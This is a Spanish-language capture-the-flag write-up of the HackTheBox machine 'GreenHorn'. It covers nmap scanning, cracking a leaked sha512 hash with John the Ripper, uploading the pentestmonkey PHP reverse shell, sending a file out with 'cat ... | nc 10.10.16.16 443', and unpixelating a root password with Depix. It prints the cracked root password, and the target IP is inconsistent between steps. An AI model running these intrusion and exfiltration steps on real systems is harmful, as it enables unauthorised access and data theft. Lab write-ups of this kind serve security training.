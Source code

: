 
Iniciamos con un scaneo en [[00. Apuntes/01. Herramientas/NMAP|NMAP]]
`nmap -p- --open -sS -sCV --min-rate 5000 -vvv -Pn -n 10.10.11.47 -oG allPorts`

![[Pasted image 20241212110548 1.png]]

volvemos a hacer un scaneo con Nmap a los puertos abiertos
`nmap -p 22,80,3000 --open -sS -sCV --min-rate 5000 -vvv -Pn -n 10.10.11.47 -oN PortsScan`

Añadimos la IP de la maquina al fichero `/etc/hosts`
`echo "10.10.11.25 greenhorn.htb" | sudo tee -a /etc/hosts`

Ahora una vez navegamos a la IP y encontramos lo siguiente

![[Pasted image 20241212111752 1.png]]

Si navegamos al botón que pone abajo admin encontramos un login con PHP
![[Pasted image 20241212111843 1.png]]


También podemos navegar a la IP con el puerto 3000 y encontramos lo siguiente
![[Pasted image 20241212112007 1.png]]

Navegamos por la web y en el apartado de explore nos encontramos un repositorio en PHP
![[Pasted image 20241212112104 1.png]]

Lo abrimos y encontramos lo siguiente
![[Pasted image 20241212112145 1.png]]
Dentro encontramos el código de login.php, una vez dentro de el encontramos que utiliza como has la codificación `sha512` 

![[Pasted image 20241212114043 1.png]]

Y también vemos los ficheros que necesita este login.php para funcionar

![[Pasted image 20241212114203 1.png]]

Podemos navegar al repositorio y ver que contiene una vez estamos en el vemos que contienen el hash en `sha512` 

![[Pasted image 20241212114348 1.png]]

Copiamos el código en un fichero que lo llamamos `hash.txt`
`echo "d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163" > hash.txt

Ahora vamos a usar John the Ripper para hashear la contraseña y sacarla en texto claro
`john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512 hash.txt`

![[Pasted image 20241212114705 1.png]]

Encontramos la contraseña y podemos acceder al panel de admin con la contraseña encontrada.

![[Pasted image 20241212111843 1.png]]

![[Pasted image 20241212115004 1.png]]
![[Pasted image 20241212115029 1.png]]
![[Pasted image 20241212115049 1.png]]

Vamos a hacer una reverse shell con php accediendo al github de pentestmonkey, https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php ,
Modificamos los datos necesarios.

![[Pasted image 20241212115400 1.png]]

Usaremos el puerto 443 para escuchar en el y desde hay obtener la reverse shell
Nos ponemos en escucha en el puerto elegido.
`nc -lvnp 443`

Creamos un zip del archivo php que es el que deja subir a la web 
`zip reverse.zip reverse.php `
Y subimos el fichero zip que nos otorga reverse shell a la web
Conseguimos acceso
![[Pasted image 20241212115932 1.png]]

Ahora procederemos a realizar la escalada de privilegios
Primero nos generamos una bash para poder trabajar mejor
`script /dev/null -c /bin/bash`

Navegamos a /home y vemos varios usuarios
![[Pasted image 20241212120315 1.png]]

Suponemos que la contraseña del usuario junior de la misma que la de el panel de login, iniciamos sesión con junior y la contraseña antes obtenida
`su junior`
![[Pasted image 20241212120450 1.png]]

Obtenemos acceso al usuario junior, navegamos a su directorio y obtenemos la primera flag.

Ahora obtendremos privilegios para el usuario root.
En el directorio vemos un fichero llamado "Using OpenVAS.pdf" nos lo transferimos por Netcat, en la maquina anfitriona usamos
`nc -lvnp 443 > 'Using OpenVAS.pdf'`

Y en la maquina victima usamos el siguiente comando
`cat 'Using OpenVAS.pdf' | nc 10.10.16.16 443`

 Cuando acabe la transferencia abrimos el fichero .pdf y nos encontramos lo siguiente
 ![[Pasted image 20241212122006 1.png]]

Descargamos una herramienta de github que despixela datos en imágenes, la herramienta se llama Depix, guardamos la parte del pixelado como image.png y usamos la herramienta descargada desde su direcctorio de descarga.
`python3 depix.py -p /home/jalag/Desktop/image.png -s ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o /home/jalag/Desktop/output.png`

Y obtenemos la imagen despixelada
![[Pasted image 20241212123500 1.png]]
`sidefromsidetheothersidesidefromsidetheotherside`

Esta es la es contraseña, entramos como root en la reverse shell que tenemos
`su root`

Obtenemos una sesión como root
![[Pasted image 20241212124023 1.png]]

Y obtenemos la flag de root.


 